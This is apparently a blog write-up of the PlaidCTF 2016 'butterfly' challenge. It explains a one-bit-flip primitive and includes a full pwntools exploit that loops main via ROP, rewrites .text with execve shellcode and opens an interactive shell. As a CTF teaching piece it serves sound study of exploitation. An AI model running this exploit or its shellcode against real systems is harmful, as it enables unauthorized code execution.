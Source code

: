 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/plaidctf-2016-butterfly/
  - /blog/2016/04/18/plaidctf-2016-butterfly/
date: 2016-04-18T06:00:01+09:00
tags: [ "ctf", "pwn", "writeup", "plaidctf", "mprotect" ]
---
```


# PlaidCTF 2016 butterfly

I like this problem, but this is a little easy.

## problem

``` sh
$ file butterfly
butterfly: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=daad8fa88bfeef757675864191b0b162f8977515, not stripped
```

``` sh
$ nc butterfly.pwning.xxx 9999
THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?
33554432
WAS IT WORTH IT???
```

The program `fgets` a integer $p$ using `strtol`, then flips the $(p \bmod 8)$-th bit of the address $\lfloor p / 8 \rfloor$.
The flipping is under `mprotect`, so you can flip even the `.text` section.

## solution

At first, we can flip arbitrary $1$-bit.
To enable to flip many bits, the first flipping is this:

``` asm
from:
  400860:	48 83 c4 48          	add    rsp,0x48
to:
  400860:	48 83 c4 08          	add    rsp,0x8
```

This is an instruction to return from the `main`, so this let us ROP, and now we can flip as many bits as we like.

Next, send a shellcode onto `.text` section, using flipping.
I wrote it here, and jump by making an error.

``` asm
  40086b:	bf 42 09 40 00       	mov    edi,0x400942 # "mprotect1"
  400870:	e8 fb fd ff ff       	call   400670 <perror@plt>
  ...
```

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host')
parser.add_argument('port', type=int)
args = parser.parse_args()
context.log_level = 'debug'

p = remote(args.host, args.port)

main = 0x400788
def thy_cosmic_ray(ptr):
    p.recvline()
    payload = ''
    payload += str(ptr)
    payload += ' ' * (8 - len(payload))
    payload += 'BBBBBBBB' # rbx
    payload += 'CCCCCCCC' # r14
    payload += 'DDDDDDDD' # r15
    payload += 'EEEEEEEE' # rbp
    payload += p64(main)
    payload += '\n'
    log.info(repr(payload))
    p.send(payload)
    p.recvline()

thy_cosmic_ray(0x400863 * 8 + 6) # make `add rsp, 0x48' to `add rsp, 0x8'

# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

addr = 0x40086b
text = "\xbf\x42\x09\x40\x00\xe8\xfb\xfd\xff\xff\xeb\xd6\xbf\x4c\x09\x40\x00\xe8\xef\xfd\xff\xff\xeb\xca\xe8\x88\xfd\xff\xff\x0f\x1f\x84\x00\x00\x00\x00\x00"

for (i, (frm, to)) in enumerate(zip(text, shellcode)):
    for j in range(8):
        if (ord(frm) ^ ord(to)) & (1 << j):
            thy_cosmic_ray((addr + i) * 8 + j)

p.recvline()
p.sendline('foo') # jump to perror

time.sleep(1)
p.sendline('id')
p.interactive()
```
